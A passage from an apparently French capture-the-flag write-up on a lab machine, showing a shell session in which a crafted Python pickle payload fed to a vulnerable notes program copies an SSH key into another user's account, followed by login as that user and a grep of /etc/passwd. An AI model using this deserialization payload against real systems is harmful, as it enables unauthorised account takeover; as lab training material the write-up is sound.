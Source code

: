 ```plain
|  .o*.           |
|  o+.+           |
| .o.=            |
|   * .           |
|    + . S        |
|   . +   .       |
|  E +   .        |
|   . =.  .       |
|    oo=o.        |
+-----------------+
bash-4.2$ cp /home/amanpour/.ssh/id_rsa.pub /tmp/authorized_keys 
bash-4.2$ echo -e "cos\nsystem\n(S'cp /tmp/authorized_keys /home/curtiz/.ssh'\ntR." > key_trap
bash-4.2$ /opt/notes

-------------------------------
 Welcome to Juan's to-do list! 
   type help for more info     
-------------------------------
load ../../tmp/key_trap
exit
bash-4.2$ ssh curtiz@localhost
Enter passphrase for key '/home/amanpour/.ssh/id_rsa': 
Linux xerxes 3.2.0-4-486 #1 Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Dec 20 06:17:11 2013 from 192.168.56.1
curtiz@xerxes:~$ id
uid=1002(curtiz) gid=1002(curtiz) groups=1002(curtiz),1003(notes)
```

Bingo ! On a grimpé d'un cran dans notre exploration :)  

La Liberté guidant le peuple
-----------------------------

Dans le home de *curtiz* on retrouve immédiatement un fichier *id\_rsa* qui correspond de toute évidence à la clé privée de *Marie* comme indiqué précédemment dans les notes que l'on a trouvé.  

Qui est *Marie* ? Un petit grep pour nous renseigner :

```plain
a.curtiz@xerxes:~$ grep -i marie /etc/passwd
delacroix:x:1000:1000:Marie Delacroix,,,:/home/delacroix:/bin/delacroix
```

Cette utilisatrice dispose d'un shell particulier : */bin/delacroix*  

Si on lance le binaire on a une demande de mot de passe. C'est le niveau de sécurité supérieure dont il était mention.  
